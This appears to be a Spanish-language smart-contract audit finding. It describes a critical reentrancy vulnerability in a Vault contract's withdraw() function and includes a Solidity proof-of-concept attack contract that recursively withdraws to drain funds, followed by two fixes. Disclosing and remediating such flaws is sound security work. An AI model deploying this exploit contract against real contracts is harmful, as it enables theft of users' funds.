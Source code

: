 
## Vulnerabilidades Identificadas

### 🚨 CRÍTICO - Reentrancy Attack
**Función:** `withdraw()`  
**Líneas:** 15-19

**Descripción:**  
El contrato es vulnerable a ataques de reentrancia. La función `withdraw()` actualiza el balance del usuario DESPUÉS de transferir los fondos, permitiendo que un atacante llame recursivamente a la función antes de que se actualice el balance.

**Impacto:** Un atacante puede drenar completamente el contrato.

**Prueba de Concepto:**
```solidity
contract ReentrancyAttack {
    Vault public vault;
    
    constructor(address _vault) {
        vault = Vault(_vault);
    }
    
    function attack() external payable {
        vault.deposit{value: msg.value}();
        vault.withdraw(msg.value);
    }
    
    receive() external payable {
        if (address(vault).balance >= msg.value) {
            vault.withdraw(msg.value);
        }
    }
}
```

**Solución:**
```solidity
function withdraw(uint256 amount) external {
    require(balances[msg.sender] >= amount, "Insufficient balance");
    balances[msg.sender] -= amount; // Actualizar ANTES de transferir
    payable(msg.sender).transfer(amount);
    emit Withdraw(msg.sender, amount);
}
```

**Alternativa con ReentrancyGuard:**
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract Vault is ReentrancyGuard {
    // ...
    function withdraw(uint256 amount) external nonReentrant {
        // función implementation
    }
}
```
